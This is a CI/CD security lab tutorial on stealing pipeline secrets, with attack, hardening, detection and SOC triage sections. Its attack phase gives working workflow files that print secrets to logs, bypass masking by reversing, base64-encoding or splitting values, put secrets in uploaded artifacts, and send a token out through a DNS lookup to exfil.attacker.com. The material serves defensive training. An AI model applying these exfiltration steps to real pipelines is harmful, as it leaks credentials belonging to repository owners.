

# Lab 2.4: Secret Exfiltration from CI

<div class="lab-meta">
  <span>~15 min hands-on | ~15 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="2.1-cicd-fundamentals.md">Lab 2.1</a></span>
</div>

CI secrets are environment variables. Build steps can read, log, write, and transmit them. Three exfiltration channels: **build logs** (`echo $SECRET`), **artifacts** (write to a file, upload as build artifact), and **network** (base64-encode in DNS queries or HTTP requests). Even with secret masking enabled, attackers bypass it by encoding, splitting, or reversing the value before printing.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `wl-webapp` with multiple CI secrets |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. How Secrets Live in CI"

### Step 1: Examine the CI config

```bash
cd /repos/wl-webapp
cat .gitea/workflows/ci.yml
```

Three secrets injected globally: `DEPLOY_TOKEN`, `DB_PASSWORD`, `API_KEY`. Every job and step can read them.

### Step 2: Check the build step

The `build` job writes secrets to a file:

```yaml
- name: Build
  run: |
    echo "Build config: DB=$DB_PASSWORD API=$API_KEY" > dist/build.log
```

This gets uploaded as a build artifact. Anyone who downloads it gets the secrets.

### Step 3: Understand the artifact upload

```yaml
- name: Upload artifact
  uses: actions/upload-artifact@v4
  with:
    path: |
      webapp.tar.gz
      dist/build.log  # <-- contains secrets!
```

---

???+ warning "Phase 2: BREAK. Three Exfiltration Techniques"

The CI pipeline already has `DEPLOY_TOKEN`, `DB_PASSWORD`, and `API_KEY` configured as Gitea action secrets (set by the lab's setup-repo.sh script). The attack modifies the CI workflow to exfiltrate them during a build.

### Technique 1: Build log leakage

Modify the CI workflow to echo secrets directly into the build log:

```bash
cd /repos/wl-webapp
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI
on: [push]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Build
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
          DB_PASSWORD: ${{ secrets.DB_PASSWORD }}
        run: |
          echo "=== Build Log Exfiltration ==="
          echo "DEPLOY_TOKEN=${DEPLOY_TOKEN}"
          echo "DB_PASSWORD=${DB_PASSWORD}"
EOF
```

CI systems mask secrets in logs, but attackers bypass masking by transforming the value before printing:

Reversing the string defeats character-by-character masking:

```bash
echo "${DEPLOY_TOKEN}" | rev
```

Base64 encoding changes every character so the mask pattern does not match:

```bash
echo "${DEPLOY_TOKEN}" | base64
```

Splitting into chunks breaks the contiguous string the mask looks for:

```bash
echo "${DEPLOY_TOKEN}" | fold -w 10
```

### Technique 2: Artifact exfiltration

A workflow step writes secrets to a file that gets uploaded as a build artifact:

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI
on: [push]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Build
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
          DB_PASSWORD: ${{ secrets.DB_PASSWORD }}
          API_KEY: ${{ secrets.API_KEY }}
        run: |
          mkdir -p dist
          echo "DEPLOY_TOKEN=${DEPLOY_TOKEN}" > dist/build.log
          echo "DB_PASSWORD=${DB_PASSWORD}" >> dist/build.log
          echo "API_KEY=${API_KEY}" >> dist/build.log
      - name: Upload artifact
        uses: actions/upload-artifact@v4
        with:
          path: dist/build.log
EOF
```

Anyone who can download build artifacts (often any repo collaborator) gets the secrets.

### Technique 3: DNS exfiltration

A workflow step base64-encodes a secret and sends it as a DNS subdomain query:

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: WeakLink Webapp CI
on: [push]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Build
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
        run: |
          ENCODED=$(echo -n "${DEPLOY_TOKEN}" | base64 | tr '+/' '-_' | tr -d '=')
          dig ${ENCODED}.exfil.attacker.com
EOF
```

DNS exfiltration is dangerous because DNS queries are rarely blocked by firewalls, do not appear in HTTP proxy logs, and the data is hidden in the subdomain.

**Checkpoint:** You should now have demonstrated all three exfiltration channels: build log output, artifact file with secrets, and encoded DNS query payload.

### Step 4: Check for compromise markers

```bash
if [ -f dist/build.log ] && grep -q "DEPLOY_TOKEN" dist/build.log; then
    echo "COMPROMISED: Secrets found in build artifacts."
fi
```

---

???+ success "Phase 3: DEFEND. Locking Down CI Secrets"

### Fix 1: Apply the hardened CI config

```bash
cd /repos/wl-webapp
cp /lab/src/repo/.gitea/workflows/ci-hardened.yml .gitea/workflows/ci.yml
cp /lab/src/repo/.gitea/workflows/pr-ci.yml .gitea/workflows/pr-ci.yml
cat .gitea/workflows/ci.yml
```

Key changes:

1. **No global secrets**. removed the top-level `env:` block
2. **Secrets scoped to deploy only**
3. **No secrets in artifacts**
4. **PR builds have zero secrets**. separate `pr-ci.yml`

### Fix 2: Clean up compromised artifacts

```bash
rm -f dist/build.log
rm -rf dist/
```

### Fix 3: Commit the defense

```bash
git add -A
git commit -m "Remove secrets from build artifacts and scope to deploy only"
git push origin main
```

### Additional defenses

1. **Network egress controls**: restrict CI runners to known registries and deployment targets
2. **DNS monitoring on runners**: watch for long/encoded subdomains from CI infrastructure
3. **Artifact scanning**: scan uploaded artifacts for secret patterns before making them available
4. **Short-lived OIDC credentials** instead of long-lived secrets

### Step 4: Final verification

```bash
weaklink verify 2.4
```

---

??? danger "Phase 4: DETECT. Catching Secret Exfiltration"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Automated Exfiltration** | [T1020](https://attack.mitre.org/techniques/T1020/) | Secrets automatically exfiltrated during CI builds |
| **Unsecured Credentials: Credentials in Files** | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Secrets written to build artifacts, logs, and cache files |

Three detection surfaces map to the three channels. Build logs: strings matching known secret patterns (`ghp_`, `AKIA`, `sk-`), base64-encoded strings longer than 40 chars, steps running `env`/`printenv`/`set`. Artifacts: files named `*.log`/`*.env`/`*.txt` with secret patterns, artifact downloads by users who did not trigger the build. DNS: queries from CI runners with subdomains longer than 30 chars, queries to domains not in the allowlist.

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Secret pattern detected in build artifact" (artifact scanning)
    - "Long DNS query from CI runner" (DNS monitoring)
    - "Base64-encoded string in build log from PR build" (log analysis)

    **Triage workflow:**

    1. **Identify the exfiltration channel**. build logs, artifacts, DNS, or HTTP?
    2. **Identify which secrets were exposed**
    3. **Rotate immediately**. every secret in scope during the compromised build
    4. **Audit secret usage**. check if stolen credentials were used downstream
    5. **Block the channel**. restrict egress, enable artifact scanning, enforce masking

    **False positive rate:** Varies. Build log detection: medium FP (debug info). DNS exfiltration: low FP (legitimate CI DNS queries are short). Artifact scanning: low FP (secrets in artifacts are always a problem).

---

??? example "CI Integration"

    **`.github/workflows/secret-leak-scan.yml`:**

    ```yaml
    name: Secret Leak Prevention

    on:
      workflow_run:
        # List your workflow names explicitly; wildcards are not supported
        workflows: ["CI", "Build", "Deploy"]
        types: [completed]

    jobs:
      scan-artifacts:
        runs-on: ubuntu-latest
        steps:
          - name: Download artifacts from triggering workflow
            uses: actions/download-artifact@v4
            with:
              run-id: ${{ github.event.workflow_run.id }}
              path: /tmp/artifacts/

          - name: Scan for secret patterns
            run: |
              echo "--- Scanning build artifacts for leaked secrets ---"
              LEAKED=0
              while read -r f; do
                if grep -lqE '(ghp_|AKIA|sk-|password=|token=|secret=)' "$f" 2>/dev/null; then
                  echo "::error::Secret pattern found in artifact: $f"
                  LEAKED=1
                fi
              done < <(find /tmp/artifacts/ -type f)
              if [ "$LEAKED" -eq 1 ]; then
                echo "CRITICAL: Secrets detected in build artifacts. Rotate immediately."
                exit 1
              fi
              echo "PASS: No secrets found in artifacts."
    ```

---

## What You Learned

1. **Three exfiltration channels**. build logs, artifacts, and DNS/HTTP all leak secrets. Secret masking is bypassable.
2. **Scope secrets to the minimum**. only the deploy step should have deployment credentials.
3. **Network egress controls and artifact scanning** are the last line of defense.

## Further Reading

- [CircleCI Security Incident (2023)](https://circleci.com/blog/jan-4-2023-incident-report/)
- [GitHub: Security hardening. using secrets](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions)
- [Cycode: Secret Scanning in CI/CD](https://cycode.com/blog/cicd-secret-scanning/)
